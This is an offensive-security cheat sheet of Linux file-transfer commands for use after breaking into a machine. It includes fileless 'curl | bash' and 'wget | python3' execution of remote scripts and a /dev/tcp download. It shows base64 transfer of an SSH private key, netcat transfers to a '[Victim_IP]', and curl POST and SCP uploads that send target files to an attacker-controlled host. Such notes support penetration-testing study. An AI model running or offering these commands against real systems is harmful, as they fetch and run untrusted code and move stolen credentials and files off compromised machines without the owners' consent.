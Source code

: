 # Downloading to Linux

## Base64 Encoding / Decoding

### Check SSH Key MD5 hash
```bash
md5sum id_rsa
	4e301756a07ded0a2dd6953abf015278 id_rsa
```

### Encode SSH Key to Base64
```bash
cat id_rsa | base64 -w 0; echo
	[Base64_Output]
```

### Decode the File and Save to Target Linux Box
```bash
echo -n '[Base64_Output]' | base64 -d > id_rsa
```

### Confirm MD5 Hashes Match
```bash
md5sum id_rsa
	4e301756a07ded0a2dd6953abf015278 id_rsa
```


## Wget and cURL

### Download a File Using wget
```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
	- NOTE output filename option is capital '-O'

### Download a File Using cURL
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -o /tmp/LinEnum.sh
```
	- NOTE output filename option is lowercase '-o'


## Fileless Attacks

### Fileless Download with cURL
```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### Fileless Download with wget
```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```


## Download with Bash (/dev/tcp)

### Connect to the Target Webserver
```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

### HTTP GET Request
```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

### Print the Response
```bash
cat <&3
```


## SSH Downloads

### Enable the SSH Server
```bash
sudo systemctl enable ssh
```

### Start the SSH Server
```bash
sudo systemctl start ssh
```

### Check/ Verify for SSH Listening Port
```bash
netstat -lnpt
	...
	Proto   Recv-Q  Send-Q  Local Address    Foreign Address    State     PID/Program name
	tcp          0       0  0.0.0.0:22       0.0.0.0:*          LISTEN    -
```

### Downloading Files Using SCP

>Recommend creating a temp user account for file transfers to avoid using primary creds or keys on remote comp.

```bash
# scp remote_login:file local_save
scp [Attack_User]@[Attack_IP]:[Target_File_Path] [Output_File]
```


# Uploading

## Netcat

### Netcat Sending File via Bind Shell
```bash
nc -q 0 [Victim_IP] [Port] < [Input_File]
```

### Ncat Sending File via Bind Shell
```bash
nc -q 0 [Victim_IP] [Port] < [Input_File]
```

### Netcat Sending File via Reverse Shell
```bash
sudo nc -l -p [Port] -q 0 < [Input_File]
```

### Ncat Sending File via Reverse Shell
```bash
sudo ncat -l -p [Port] --send-only < [Input_File]
```


## Web Upload

### Start Web Server on Attack box
```bash
sudo python3 -m pip install --user uploadserver
```

### Create a Self-Signed Certificate on Attack box
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

>Webserver should not host the cert.  Recommend creating a new dir to host the file for the webserver

### Start Web Server on Attack box
```bash
mkdir https && cd https

sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

### Upload Multiple Files from Victim
```bash
curl -X POST https://[Attack_IP]/[Output_File] -F 'files=@[Target_File_Path]' -F 'files=@[Target_File_Path]' --insecure
```
	- --insecure option - Because we used a self-signed cert that we trust


## Alternative Web File Transfer Method
- If the server we compromised is a web server, we can move the files we want to transfer to the web server directory and access them from the web page.
- Remember that inbound traffic may be blocked.

### Creating a Web Server w/ Python3 on Victim Box
```bash
python3 -m http.server
```

### Creating a Web Server w/ Python2.7 on Victim Box
```bash
python2.7 -m SimpleHTTPServer
```

### Creating a Web Server w/ PHP on Victim Box
```bash
php -S 0.0.0.0:8000
```

### Creating a Web Server w/ Ruby on Victim Box
```bash
ruby -run -ehttpd . -p8000
```

### Download the File from the Victim Box onto the Attack Box
```bash
wget [Victim_File_URL]
```


## SCP Upload

### File Upload using SCP
```bash
# scp local_file remote_login:save_path
scp [Target_File_Path] [Attack_User]@[AttackIP]:[Output_File_Path]
```